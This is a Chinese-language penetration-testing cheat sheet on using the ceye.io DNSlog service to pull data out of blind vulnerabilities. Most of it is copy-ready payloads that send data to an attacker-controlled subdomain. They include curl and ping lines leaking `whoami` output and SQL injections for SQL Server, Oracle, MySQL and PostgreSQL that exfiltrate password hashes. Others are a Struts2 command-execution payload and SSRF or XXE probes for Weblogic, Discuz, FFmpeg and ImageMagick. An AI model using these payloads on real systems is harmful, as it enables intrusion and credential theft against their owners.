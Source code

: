 在渗透环境时，我们经常会遇到疑似命令执行还有些bool注入和延时注入，但是都没有回显。

命令执行我们可能会用各种各样的请求来判断是否存在命令执行，对于bool注入和延时注入这两种注入类型的缺点就是速度慢，效率低，一个是基于对错判断数据，一个是基于访问时间来判断数据，dnslog的出现就正好弥补了这样的缺陷。

## 0x00 原理

```
    **首先需要有一个可以配置的域名，比如：ceye.io，然后通过代理商设置域名 ceye.io 的 nameserver 为自己的服务器 A，然后再服务器 A 上配置好 DNS Server，这样一来所有 ceye.io 及其子域名的查询都会到 服务器 A 上，这时就能够实时地监控域名查询请求了，图示如下。**
```

![](/assets/dnslog1.png)

DNS在解析的时候会留下日志，咱们这个就是读取多级域名的解析日志，来获取信息

简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。

## 0x01 利用

首先给大家分享[一个免费的dnslog平](http://ceye.io/)台\(ps:要是有cloudeye激活码的可以忽略\)。

平台会给每一个会员分一个二级域名`xxx.ceye.io`。

简单的来说，dnslog平台自己保留dns的日志信息，并对应每个会员一个二级域名，这样我们可以通过

```
ping test.xxxxx.ceye.io
```

这样的多级域名方式，把我们需要返回的信息链接到url中，然后分析日志，test部分就是我们得到的信息。

### 0x01.1 命令执行

在我们找到命令执行漏洞的时候，我们可以执行这样的命令判断:

     linux:
     curl http://ip.port.domain.ceye.io/`whoami`
     ping `whoami`.ip.port.domain.ceye.io
     ping %USERNAME%.domain.ceye.io

这时候就可以去dnslog瓶体查看到信息![](/assets/dnslog4.png)![](/assets/dnslog2.png)![](/assets/dnslog3.png)

### 0x01.2 SQL注入

#### **SQL Server**

存储程序用于获取所有文件夹的列表和给定文件夹内部的子文件夹。

```
DECLARE @host varchar(1024);
注册一个名为@host的变量，类型为varchar。
SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';
获取db_name()然后转换成varchar类型，然后吧获取的db_name()返回值拼接到dnslog平台给我们的子域名里面，然后赋值给@host变量。
EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');
列远程主机的foobar$目录,由于是远程主机，所以会做一个dns解析，这样我们的dns平台就能得到日志了
http://xxxx.com.cn/?Id=123';DECLARE @host varchar(1024);SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');--
```

#### **Oracle**

UTL-INADDR包用于互联网的寻址–诸如检索本地和远程主机的主机名和IP的地址:

```
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```

#### **MySQL**

MySQL的函数LOAD\_FILE\(\)读取文件内容并将其作为字符串返回：LOAD\_FILE\(\):

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM user WHERE user='root' LIMIT 1),'.b182oj.ceye.io\\abc'));
```

#### **PostgreSQL**

PostgreSQL的声明COPY用于在文件系统的文件和表之间拷贝数据:

```
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

![](/assets/dnslog5.png)![](/assets/dnslog6.png)

### **0x01.3 XSS（无回显）**

通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：

payload:&gt;&lt;img src=[http://xss.xxxx.ceye.io/aaa&gt;让src请求我们的dnslog平台](http://xss.xxxx.ceye.io/aaa>让src请求我们的dnslog平台)

### 0x01.4 ssrf\(无回显\)

payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

### 0x01.5 Struts2

```
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}

xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```

### 0x01.6 FFMpeg

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST
```

### 0x01.7 Weblogic

```
xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```

### 0x01.8 ImageMagick

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context
```

### 0x01.9 Resin

```
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf
```

### 0x01.10 Discuz

```
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```

### 0x01.11 xxe\(无回显\)

参考[https://www.secpulse.com/archives/49194.html](https://www.secpulse.com/archives/49194.html)![](/assets/dnslog7.png)![](/assets/dnslog8.png)


